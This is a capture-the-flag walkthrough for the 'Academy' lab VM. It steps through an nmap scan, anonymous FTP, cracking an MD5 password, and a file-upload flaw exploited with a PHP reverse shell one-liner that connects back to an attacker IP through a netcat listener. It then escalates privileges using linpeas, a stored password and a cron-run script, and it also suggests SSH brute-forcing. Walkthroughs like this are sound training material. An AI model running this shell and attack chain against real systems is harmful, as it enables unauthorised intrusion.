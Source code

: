 First of all set up academy on your VM ware

![](https://i.imgur.com/sqlEL3g.png)

Now use the logs `root:tcm` and you should be logged in successfully, Once logged in you can use the command `dhclient` followed by `ip a` to check for machine ip address

![](https://i.imgur.com/oVlP40y.png)

Time to run our Nmap scan on targets, first of all directly SSH to the target using the host system to make things easier for us to interact with the Machine instead of clicking VM Ware always

![](https://i.imgur.com/cTGXvph.png)

![](https://i.imgur.com/aGx2Ruw.png)

If you have problems connecting, Make sure to set network to bridge then run `dhclient` before `ip a` 

Running our Nmap scan , Query `nmap -p- -sCV 192.168.0.108 -v --min-rate=1000 -T4 -oN nmap_academy.txt`

![](https://i.imgur.com/v6wqzFu.png)

## Enumeration

> Usually in CTF's we erase enumerating port 22/SSH out of the board, cos' we don't usually go through that route except we find a valid username and start brute forcing for passwords, But in real-world scenario, You should brute force ssh using `root` as username and seeing if the account uses a weak credential, also try to see if you can bypass detection, like trying to log in over 500 attempts without getting detected, that is a security risk you should add to your reports


**Starting with FTP** 

We have anonymous login on FTP, so let start out with that, Remember nmap told us we have `anonymous` login with a `note.txt`

![](https://i.imgur.com/SHmlC7f.png)

Checking what the note.txt has, give us this 

![](https://i.imgur.com/MRhguMj.png)

Nice !!!, `cd73502828457d15655bbd7a63fb0bc8` , looks like a password though "Learn SQL😆" , but stored in MD5, you can use `hash-identifier` to check it out in kali , soo we will be cracking it using `john-the-ripper`  

![](https://i.imgur.com/BeXT0EU.png)

We got the password which is `student` , we need to try it out somewhere so since we found port 80/HTTP , let check it out

![](https://i.imgur.com/5hsUFWn.png)

We have a default Apache web page, trying out directory bruteforce gives us `academy` and `phpmyadmin` 

![](https://i.imgur.com/jnxSiyX.png)

Checking out `/academy` we have a login page, using the credentials we got `10201321:student` we were successfully logged in

![](https://i.imgur.com/MX9LNyp.png)

Navigating the websites i found a file upload vulnerability on `/academy/my-profile.php`

![](https://i.imgur.com/ORgyyqB.png)

We can upload our PHP reverse shell file, Get one from https://www.revshells.com/ , save it in a file with the `.php` extension and upload it as an image file, but before we do that start a netcat listener with `nc -lvnp 1337` , then go ahead with uploading the PHP file 

![](https://i.imgur.com/iS3YC7v.png)

Now paste in your reverse shell payload on the execute bar, i will be using `php -r '$sock=fsockopen("192.168.0.157",1337);exec("/bin/bash <&3 >&3 2>&3");'` for my payload, after pasting these you should get a connection on your terminal

![](https://i.imgur.com/xG9ZJFD.png)

Great, we got shell back as `www-data` so we need to do privilege escalation 

![](https://i.imgur.com/BoFJmdz.png)

We will be using `Linpeas.sh` for this lab, you can transfer it to the target system by using python and wget , also make sure to grant executable permissions and run with `./linpeas.sh`

![](https://i.imgur.com/X80fXIh.png)

We found a `backup.sh` folder on the home user `grimmie` but don't have write access to the file,  let keep hunting 

![](https://i.imgur.com/v4Tg06s.png)

![](https://i.imgur.com/gDzx9tR.png)

We definitely need a way to pivot to `grimmie` cos' user `grimmie` has a file in it home directory running as cron job, so we need to pivot to `grimmie` first then root

![](https://i.imgur.com/BaM9Dzy.png)

Looks like we have stored passwords somewhere, With this we can definitely escalate to `grimmie`

![](https://i.imgur.com/AEgi8Jd.png)

Using the find command i looked for where this password is located inside a file `find /var -type f -exec grep -l "My_V3ryS3cur3_P4ss" {} \;` , it was located under the `/var/www/html/academy/admin/includes/config.php` file

![](https://i.imgur.com/kEPayI7.png)

![](https://i.imgur.com/RK5Jhcp.png)

We can login using SSH, once logged in we can escalate privileges using the `backup.sh` file by editing it

![](https://i.imgur.com/MNkh58n.png)

![](https://i.imgur.com/hS6S34A.png)

We can see that this file is removing a zipped backup file and then somehow unzipping it to `/`
